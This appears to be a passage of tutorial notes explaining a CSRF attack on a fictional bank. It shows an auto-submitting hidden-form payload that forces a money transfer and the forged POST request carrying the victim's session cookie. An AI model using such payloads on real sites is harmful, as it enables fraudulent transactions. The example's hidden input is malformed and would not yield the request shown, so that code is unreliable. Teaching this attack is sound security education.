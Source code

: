 ## $\textnormal{What Just Happened?}$

> - Behind the scenes, when our victims visited our malicious <br />
    site `saturnbankgiveaway.com`, a POST request was triggered <br />
    and sent off to the legitimate Saturn Bank application.

> - The JavaScript sitting in the “script” tags ensures that <br />
    the form is submitted as soon as the user loads the page, <br />
    without any user interaction required, or the user even <br />
    noticing what is happening.

```html
<html>
  <body>
    <form action="https://saturnbank.com/transfer" method="POST">
      <input type="hidden" bsb="421314" accountNo="1736123125" amount="100" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

<br />

< - The request contains the legitimate user’s session cookie, <br />
    but contains our bank account number!

```plaintext
POST /transfer HTTP/1.1
Host: saturnbank.com
Content-Length: 42
Content-Type: application/x-www-form-urlencoded
Cookie: session=OM19vamvikL4yvPQfTqrcjW2ItpDAkDm
bsb=421314&accountNo=1736123125&amount=100
```

<br />

| CSRF Attack Illustration |
| ------------------------ |
| ![csrf-attack-illustration](./images/07-CSRF-attack-illustration.png) |

<br />

| CSRF Attack Conditions |
| ---------------------- |
| ![csrf-attack-condition](./images/08-CSRF-attack-conditions.png) |
